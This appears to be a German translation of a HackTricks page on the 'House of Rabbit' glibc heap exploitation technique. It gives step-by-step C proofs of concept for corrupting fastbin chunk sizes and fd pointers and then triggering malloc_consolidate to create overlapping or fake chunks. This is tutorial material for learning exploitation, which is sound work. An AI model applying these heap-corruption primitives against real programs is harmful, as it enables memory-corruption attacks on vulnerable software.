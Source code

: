 # Haus des Kaninchens

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks in PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

### Anforderungen

1. **Fähigkeit zum Ändern des Fastbin-fd-Zeigers oder der Größe**: Dies bedeutet, dass Sie den Vorwärtszeiger eines Chunks im Fastbin ändern oder seine Größe ändern können.
2. **Fähigkeit zum Auslösen von `malloc_consolidate`**: Dies kann durch Zuweisen eines großen Chunks oder durch Zusammenführen des Top-Chunks erreicht werden, was dazu führt, dass der Heap Chunks konsolidiert.

### Ziele

1. **Überlappende Chunks erstellen**: Einen Chunk mit einem anderen überlappen lassen, um weitere Heap-Manipulationen zu ermöglichen.
2. **Fälschung von Fake-Chunks**: Den Allocator dazu bringen, einen gefälschten Chunk während der Heap-Operationen als legitimen Chunk zu behandeln.

## Schritte des Angriffs

### POC 1: Ändern der Größe eines Fastbin-Chunks

**Ziel**: Erstellen eines überlappenden Chunks durch Manipulation der Größe eines Fastbin-Chunks.

* **Schritt 1: Chunks zuweisen**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Schritt 2: Freigeben von Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Wir geben beide Chunks frei und fügen sie der fastbin-Liste hinzu.

* **Schritt 3: Größenänderung des Chunks**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Schritt 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Die Zuweisung eines großen Chunks löst die `malloc_consolidate`-Funktion aus, die kleine Chunks im Fastbin zusammenführt. Die manipulierte Größe von `chunk1` führt dazu, dass sie mit `chunk2` überlappt.

Nach der Konsolidierung überlappt `chunk1` mit `chunk2`, was weitere Ausnutzung ermöglicht.

### POC 2: Ändern des FD-Zeigers

**Ziel**: Erstellen eines Fake-Chunks durch Manipulation des Fastbin-FD-Zeigers.

* **Schritt 1: Chunks zuweisen**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Erklärung**: Wir allozieren zwei Chunks, einen kleineren und einen größeren, um den Heap für den Fake Chunk vorzubereiten.

* **Schritt 2: Fake Chunk erstellen**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Schritt 3: Freigeben von Chunk1**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Erklärung**: Wir geben `chunk1` frei und fügen ihn der Fastbin-Liste hinzu.

* **Schritt 4: Ändern des FD von Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Erklärung**: Wir ändern den Vorwärtszeiger (fd) von `chunk1` so, dass er auf unseren gefälschten Chunk innerhalb von `chunk2` zeigt.

* **Schritt 5: `malloc_consolidate` auslösen**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Die erneute Zuweisung eines großen Chunks löst `malloc_consolidate` aus, das den Fake-Chunk verarbeitet.

Der Fake-Chunk wird Teil der Fastbin-Liste, was ihn zu einem legitimen Chunk für weitere Ausnutzungen macht.

### Zusammenfassung

Die **House of Rabbit**-Technik beinhaltet entweder die Änderung der Größe eines Fastbin-Chunks, um überlappende Chunks zu erstellen, oder die Manipulation des fd-Zeigers, um Fake-Chunks zu erstellen. Dies ermöglicht es Angreifern, legitime Chunks im Heap zu fälschen und verschiedene Formen der Ausnutzung zu ermöglichen. Das Verständnis und die praktische Anwendung dieser Schritte werden Ihre Fähigkeiten zur Heap-Ausnutzung verbessern.
